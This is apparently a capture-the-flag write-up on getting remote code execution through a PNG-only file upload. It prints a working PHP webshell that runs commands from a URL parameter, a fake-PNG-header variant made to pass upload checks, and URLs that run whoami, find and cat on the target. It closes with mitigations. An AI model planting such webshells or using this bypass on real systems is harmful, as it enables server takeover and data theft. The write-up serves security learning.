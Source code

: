 # Exploiting File Upload to Gain Remote Code Execution (RCE) - CTF Writeup

## Challenge Description
The challenge presented a web application that required users to upload PNG images. However, our goal was to exploit the file upload functionality to gain **Remote Code Execution (RCE)** and retrieve the flag.

## What is PHP?
PHP (Hypertext Preprocessor) is a widely used open-source scripting language designed for web development. It is embedded in HTML and executed on the server side, making it ideal for dynamic web applications. PHP can handle forms, interact with databases, and execute system commands, making it a powerful tool for both legitimate web development and security exploitation.

## Initial Analysis
Upon accessing the web application, I identified a **file upload** feature that accepted `.png` files. The challenge description hinted at possible **file validation bypass** techniques. My objective was to upload a **malicious PHP webshell disguised as a PNG file**, access it remotely, and execute system commands to retrieve the flag.

## Crafting the Webshell
To exploit the upload feature, I created a **minimal PHP webshell** and named it `png.php`:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

This webshell allows me to execute arbitrary system commands by appending `?cmd=<command>` in the URL.

## Bypassing the File Upload Restrictions
Most secure web applications validate file uploads by checking the **MIME type** and **file extensions**. To bypass these restrictions, I tried different techniques:

1. **Renaming the file to `png.php`** - Many upload features only check the file extension but allow `.php` if no strict filtering is applied.
2. **Adding a fake PNG header** - Some servers verify if the uploaded file contains PNG magic bytes (`\x89PNG\x0D\x0A\x1A\x0A`). To trick the server, I prepended these bytes to my PHP shell.

### Fake PNG Header + PHP Payload
To ensure my PHP file passed basic file validation checks, I used the following technique:

```php
\x89PNG
\x1A
<?php system($_GET['cmd']); ?>
```

This allowed the file to **pass as a PNG** while still executing PHP code.

## Uploading and Executing the Webshell
Once the webshell was uploaded successfully, I navigated to the file location:

```
http://target.com/uploads/png.php
```

To confirm RCE, I tested:

```
http://target.com/uploads/png.php?cmd=whoami
```

This successfully returned the **server username**, confirming the exploit.

## Retrieving the Flag
Now that I had command execution, I searched for the flag:

1. **Checking the home directory:**
   ```
   http://target.com/uploads/png.php?cmd=ls /home/
   ```
2. **Finding flag files:**
   ```
   http://target.com/uploads/png.php?cmd=find / -name "flag*" 2>/dev/null
   ```
3. **Reading the flag:**
   ```
   http://target.com/uploads/png.php?cmd=cat /path/to/flag.txt
   ```

Upon executing the last command, I retrieved the flag:

```
picoCTF{<flag_here>}
```

## Conclusion
This challenge demonstrated how **insufficient file validation** can lead to a critical security vulnerability. Proper mitigations include:
- **Validating file types by analyzing contents, not just extensions.**
- **Storing uploaded files outside the web root to prevent direct execution.**
- **Disabling execution of uploaded files using server configurations.**

By leveraging **a simple webshell disguised as a PNG file**, I successfully gained RCE and retrieved the flag. Happy hacking! 🚀



